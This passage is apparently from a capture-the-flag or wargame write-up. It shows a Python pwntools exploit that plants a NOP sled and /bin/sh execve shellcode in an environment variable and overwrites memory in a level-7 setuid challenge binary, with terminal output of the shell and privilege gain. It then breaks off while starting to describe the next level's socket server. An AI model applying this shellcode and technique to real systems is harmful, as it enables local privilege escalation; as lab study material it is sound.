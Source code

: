 ```python
import os
from pwn import process
shell_code = "\x90" * 100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
env = os.environ
env['_SHELLCODE'] = shell_code
proc = process(argv=['/var/challenge/level7/7', '11', '0xfffe658b'], env=env)
proc.interactive()
```

Running the exploit:

```bash
icyfire@razor level7 → python3 exploit.py
[+] Starting local process '/var/challenge/level7/7': pid 4125077
[*] Switching to interactive mode
Updating table value at index 11 with -105077: previous value was -136388891
The updated table is:
0: 2
1: 3
2: 5
3: 7
4: 11
5: 13
6: 17
$ l33t
Woot! Congratulations you broke level lev8!
Adding user 'icyfire' to group 'lev8' ...
Adding user icyfire to group lev8
Done
$
[*] Stopped process '/var/challenge/level7/7' (pid 4125077)
```

## Level 9

Inspecting the contents of `/var/challenge/level8`:

```bash
icyfire@razor level8 → ls -lha /var/challenge/level8
total 32K
drwxr-x---  2 root lev8 4.0K Nov  7  2021 .
drwxr-xr-x 16 root sudo 4.0K Aug 27  2020 ..
-rwxr-sr-x  1 root lev9  15K Aug 27  2020 8
-rw-r--r--  1 root lev8 5.4K Aug 27  2020 8.c
```

Examining `8.c` we can see that it is a socket server program. The program starts TCP or UDP server on a specified port based on the command line arguments. Examining the TCP server part of the program we can see that it creates a new child process for every incoming connection and the child process runs the `manage_tcp_client` function. In the child `stdout` and `stdin` is redirected to output and input of the socket. Examining the `manage_tcp_client` function, we can see:

